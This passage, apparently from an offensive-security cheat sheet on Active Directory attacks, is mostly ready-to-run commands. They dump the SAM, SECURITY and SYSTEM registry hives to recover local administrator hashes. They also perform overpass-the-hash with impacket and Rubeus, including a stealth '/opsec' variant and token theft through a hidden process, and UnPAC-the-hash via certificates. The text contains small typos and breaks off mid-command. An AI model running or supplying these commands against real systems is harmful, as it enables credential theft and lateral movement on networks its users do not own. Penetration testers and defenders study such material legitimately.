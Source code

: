 You can extract the local **SAM database** to find the local administrator hash :

```powershell
C:\> reg.exe save hklm\sam c:\temp\sam.save
C:\> reg.exe save hklm\security c:\temp\security.save
C:\> reg.exe save hklm\system c:\temp\system.save
$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```


### OverPass-the-Hash (pass the key)

In this technique, instead of passing the hash directly, we use the NTLM hash of an account to request a valid Kerberost ticket (TGT).

#### Using impacket

```bash
root@kali:~$ python ./getTGT.py -hashes ":1a59bd44fe5bec39c44c8cd3524dee" lab.ropnop.com
root@kali:~$ export KRB5CCNAME="/root/impacket-examples/velociraptor.ccache"
root@kali:~$ python3 psexec.py "jurassic.park/velociraptor@labwws02.jurassic.park" -k -no-pass

# also with the AES Key if you have it
root@kali:~$ ./getTGT.py -aesKey xxxxxxxxxxxxxxkeyaesxxxxxxxxxxxxxxxx lab.ropnop.com

root@kali:~$ ktutil -k ~/mykeys add -p tgwynn@LAB.ROPNOP.COM -e arcfour-hma-md5 -w 1a59bd44fe5bec39c44c8cd3524dee --hex -V 5
root@kali:~$ kinit -t ~/mykers tgwynn@LAB.ROPNOP.COM
root@kali:~$ klist
```

#### Using Rubeus

```powershell
# Request a TGT as the target user and pass it into the current session
# NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /ptt

# More stealthy variant, but requires the AES256 hash
.\Rubeus.exe asktgt /user:Administrator /aes256:[AES256HASH] /opsec /ptt

# Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /createnetonly:C:\Windows\System32\cmd.exe
```

### UnPAC The Hash

* Windows
    ```ps1
    # request a ticket using a certificate and use /getcredentials to retrieve the NT hash in the PAC.
    C:/> Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
    ```
* Linux
    ```ps1
    # obtain a TGT by validating a PKINIT pre-authentication
    $ gettgtpkinit.py -cert-pfx "PATH_TO_CERTIFICATE" -pfx-pass "CERTIFICATE_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
    
